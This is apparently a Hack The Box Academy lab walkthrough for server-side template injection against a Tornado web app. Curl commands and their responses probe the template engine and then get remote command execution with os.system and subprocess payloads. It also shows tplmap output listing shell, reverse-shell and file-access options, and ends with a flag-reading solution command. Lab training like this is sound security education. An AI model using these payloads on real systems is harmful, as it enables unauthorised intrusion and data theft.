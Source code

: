 

![image](https://academy.hackthebox.com/storage/modules/145/img/tornado1.png)

If you inspect the application's traffic using Firefox's Web Developer Tools (`[Ctrl]`+`[Shift]`+`[I]`), you will notice that user input is submitted inside a parameter called `email` and through a POST request to `http://<TARGET IP>:<PORT>/jointheteam`

Let's submit mathematical expressions in curly brackets to the input field, such as the ones mentioned in the `SSTI Identification` section, starting with `${7*7}`, as PortSwigger's diagram suggests.

#### cURL - Interacting with the Target

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

It doesn't look like the application evaluated the submitted expression. Let's try `{{7*7}}`

#### cURL - Interacting with the Target

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

The application evaluated the submitted expression this time. Let's continue, as PortSwigger's diagram suggests, to identify the underlying template engine.

#### cURL - Interacting with the Target

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

The application evaluated the latest expression we submitted. So, according to the diagram, we should be dealing with a Twig or Jinja2 template engine, right?

Unfortunately, this is not the case! If we submit any Twig or Jinja2-specific payload, the application returns `500: Internal Server Error`. Find some examples of this behavior below.

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'email={{_self.env.display("TEST")}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>
```

The payloads we utilized (and more) can be found on [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) and [HackTricks- SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Eventually, when submitting [Tornado](https://www.tornadoweb.org/en/stable/guide/templates.html)-specific payloads, we will come across the below.

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 0 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>
```

It seems we finally got it! Tornado is being utilized on the backend.

As already mentioned in previous sections, `tplmap` can be used to automate both the template engine identification and exploitation process.

#### tplmap.py

  SSTI Exploitation Example 2

```shell-session
Pangulin@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'email' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: email
  Engine: Tornado
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

solution: 
curl -X POST -d "email={% import subprocess %}{{subprocess.check_output('cat flag.txt',shell=True)}}" http://94.237.63.201:54543/jointheteam

